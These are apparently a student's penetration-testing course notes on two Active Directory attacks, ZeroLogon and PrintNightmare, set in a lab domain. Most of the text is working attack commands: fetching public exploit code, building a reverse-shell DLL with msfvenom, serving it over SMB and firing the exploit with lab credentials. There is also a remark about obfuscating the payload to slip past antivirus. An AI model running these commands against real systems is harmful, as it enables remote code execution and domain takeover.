

# AD - Additional Attacks

## ZeroLogon

➡️ [**ZeroLogon**](https://www.trendmicro.com/en_us/what-is/zerologon.html) is a vulnerability in the cryptography of Microsoft’s Netlogon process that allows an attack against Microsoft Active Directory domain controllers. Zerologon makes it possible for a hacker to impersonate any computer, including the root domain controller.

The **Zerologon vulnerability (CVE-2020-1472)** is a critical flaw in Microsoft's **Netlogon Remote Protocol (MS-NRPC)** that affects **Active Directory (AD) domain controllers**. Zerologon allows an unauthenticated attacker with network access to a domain controller to establish a vulnerable Netlogon session and eventually gain domain administrator privileges.

The vulnerability arises from a flaw in the **cryptographic implementation of the Netlogon protocol**, enabling attackers to impersonate any computer, including the root domain controller. By exploiting this, an attacker can effectively take over the entire domain.

This is a very dangerous attack, not worth the risk of running it in a pentest.

- [ZeroLogon testing script](https://github.com/SecuraBV/CVE-2020-1472)

```bash
mkdir -p $HOME/tcm/peh/ad-attacks/zerologon
cd $HOME/tcm/peh/ad-attacks/zerologon
git clone https://github.com/dirkjanm/CVE-2020-1472.git
wget https://raw.githubusercontent.com/SecuraBV/CVE-2020-1472/refs/heads/master/zerologon_tester.py

python3 zerologon_tester.py hydra-dc 192.168.31.90
```



- Proceed with the attack using [dirkjanm/CVE-2020-1472: PoC for Zerologon](https://github.com/dirkjanm/CVE-2020-1472) if the target is vulnerable.

---

## PrintNightmare

> - [Playing with PrintNightmare | 0xdf hacks stuff](https://0xdf.gitlab.io/2021/07/08/playing-with-printnightmare.html)

➡️ The [**PrintNightmare**](https://www.huntress.com/blog/critical-vulnerability-printnightmare-exposes-windows-servers-to-remote-code-execution) vulnerability refers to critical security flaws in the Windows **Print Spooler service**, identified as **CVE-2021-1675** and **CVE-2021-34527**.

PrintNightmare is a critical **remote code execution** and **local privilege escalation** vulnerability that allows attackers to execute arbitrary code with **SYSTEM** privileges, enabling them to install programs, modify data, or create new accounts with full user rights. **Exploitation can occur remotely or locally**, even on fully patched systems, if certain registry settings are misconfigured. Microsoft has released patches to address these issues, however, systems with specific registry configurations may remain vulnerable.

```bash
# Impacket

# Scanning
rpcdump.py @192.168.31.90 | egrep 'MS-RPRN|MS-PAR'

Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol
# DC could be vulnerable

# Attacking
mkdir -p $HOME/tcm/peh/ad-attacks/printnightmare
cd $HOME/tcm/peh/ad-attacks/printnightmare
wget https://raw.githubusercontent.com/cube0x0/CVE-2021-1675/refs/heads/main/CVE-2021-1675.py

# Open second terminal - Generate dll payload
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.31.131 LPORT=5555 -f dll > shell.dll
msfconfole
use multi/handler
set payload windows/x64/shell_reverse_tcp
set LPORT 5555
set LHOST 192.168.31.131

# Open third terminal - setup a file share
smbserver.py share `pwd` -smb2support

# Run attack
python3 CVE-2021-1675.py marvel.local/fcastle:Password1@192.168.31.90 '\\192.168.31.131\share\shell.dll'
```

- The attack was executed on a fully patched **Windows Server 2022**, and if it failed, it is most likely due to the applied security patches.
- The `dll` may need to be obfuscated to bypass AV detection.

```bash
# CVE-2021-1675.py output
[*] Connecting to ncacn_np:192.168.31.90[\PIPE\spoolss]
[+] Bind OK
[-] Failed to enumerate remote pDriverPath
RPRN SessionError: unknown error code: 0x8001011b
```

---

